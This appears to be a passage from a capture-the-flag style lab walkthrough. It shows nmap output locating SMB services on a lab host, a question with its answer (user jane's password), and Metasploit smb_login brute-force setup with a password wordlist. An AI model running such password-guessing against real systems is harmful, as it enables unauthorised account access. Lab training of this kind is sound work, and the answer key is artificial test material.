 ```bash
Nmap scan report for attackdefense.com (192.10.76.2)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.00 seconds

root@attackdefense:~# nmap 192.10.76.3
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-26 14:25 UTC
Nmap scan report for target-1 (192.10.76.3)
Host is up (0.0000090s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 02:42:C0:0A:4C:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```

> 1. What is the password of user “jane” required to access share “jane”? Use smb\_login metasploit module with password wordlist `/usr/share/wordlists/metasploit/unix_passwords.txt`

Answer: `Success: '.\jane:abc123'`

```bash
msf5 > use auxiliary/scanner/smb/smb_login 
msf5 auxiliary(scanner/smb/smb_login) > options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target address range or CIDR identifier
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf5 auxiliary(scanner/smb/smb_login) > set RHOSTS 192.10.76.3
RHOSTS => 192.10.76.3
```